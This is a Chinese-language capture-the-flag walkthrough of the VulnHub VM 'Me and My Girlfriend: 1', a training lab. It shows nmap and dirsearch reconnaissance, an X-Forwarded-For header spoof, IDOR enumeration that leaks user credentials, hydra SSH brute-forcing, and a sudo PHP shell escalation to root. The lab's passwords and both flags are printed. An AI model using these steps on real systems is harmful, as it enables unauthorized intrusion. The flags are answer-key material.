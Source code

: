 # Me and My Girlfriend: 1

## 一、描述

```text
VM名称：Me and My Girlfriend: 1
下载（镜像）：https://download.vulnhub.com/meandmygirlfriend/Me-and-My-Girlfriend-1.ova
描述：这个VM告诉我们，有一对恋人，即Alice和Bob，这对夫妻本来很浪漫，但是自从Alice在一家私人公司“ Ceban Corp”工作以来，爱丽丝对鲍勃的态度发生了一些变化 是“隐藏”的，而鲍勃（Bob）寻求您的帮助，以获取爱丽丝（Alice）隐藏的内容并获得对该公司的完全访问权限！ 
难度级别：初学者
注意：有2个Flag。 
简单特权升级（提权）
```

## 二、开始训练

开启靶机环境

![image-20210312140650507](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312140650507.png)

使用nmap扫描子网，寻找靶机IP

```text
nmap -sP 192.168.1.0/24
```

![image-20210312140820792](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312140820792.png)

发现靶机IP

使用该IP对此网站进行详细扫描

```text
nmap -A 192.168.1.228
```

![image-20210312142721177](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312142721177.png)

没有发现什么比较直观的信息

使用dirsearch.py进行目录扫描

```text
dirsearch.py -u http://192.168.1.228/ -e*
```

发现robots.txt页面

![image-20210312142854690](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312142854690.png)

里面有一个txt文件

![image-20210312142949699](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312142949699.png)

打开后是一段提示，似乎没什么用处

![image-20210312142700851](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312142700851.png)

打开网站，如下图所示

![image-20210312140844996](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312140844996.png)

提示只能在本地访问，查看源代码

![image-20210312141005682](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312141005682.png)

发现一行注释，提示使用x-forwarded-for

使用该插件将ip改为127.0.0.1

![image-20210312141124109](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312141124109.png)

刷新后，成功打开网站

显示如下

![image-20210312141203919](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312141203919.png)

发现有登陆界面

![image-20210312141611979](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312141611979.png)

尝试使用admin，passwd登陆失败

尝试注册

![image-20210312141547884](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312141547884.png)

注册信息

```text
用户名：admin
密码：admin
```

使用该信息登陆

![image-20210312141734195](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312141734195.png)

登陆成功

转到Profile，可以看到账号密码的信息

并且url中出现了个user\_id参数

源代码中就有隐藏的密码

![image-20210312143729764](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312143729764.png)

经查询，当看到user\_id这种参数出现，有可能是越权漏洞

准备遍历user\_id参数，我们注册后，user\_id为12

猜测其他用户就是1-11，使用burp进行遍历。

![image-20210312144044135](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312144044135.png)

果然得到了用户名及密码

![image-20210312144107169](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312144107169.png)

发现一共有六个账户

```text
eweuhtandingan    skuyatuh
aingmaung        qwerty!!!
sundatea        indONEsia
sedihaingmah    cedihhihihi
alice            4lic3
abdikasepak        dorrrrr
```

利用hydry，使用刚才得到的账号密码作为字典进行爆破SSH。

```text
hydra -L users.txt -P pass.txt ssh://192.168.1.228
```

![image-20210312145007633](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145007633.png)

![image-20210312145055284](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145055284.png)

成功爆破出ssh的用户名和密码

```text
[ssh] host: 192.168.1.228   login: alice   password: 4lic3
```

使用CRT进行SSH连接

![image-20210312145240998](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145240998.png)

![image-20210312145308247](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145308247.png)

连接成功

![image-20210312145328255](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145328255.png)

在/home/.my\_secret/下发现flag1.txt

![image-20210312145605150](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145605150.png)

```text
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
```

还发现了一个note

![image-20210312145754602](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312145754602.png)

```text
Woahhh! I like this company, I hope that here i get a better partner than bob ^_^, hopefully Bob doesn't know my notes
```

提示了一些信息，并提到了最后的flag在root目录中

尝试进入root目录

![image-20210312150006696](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312150006696.png)

没有权限，开始准备提权

使用该命令查看root信息

```text
sudo -l
```

![image-20210312150140092](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312150140092.png)

发现php无需root密码即可执行root命令

使用如下命令进行提权

```text
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

![image-20210312150434155](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312150434155.png)

成功提权

进入root目录查看最后的flag

![image-20210312150554790](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210312150554790.png)

```text
Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```

靶机训练结束

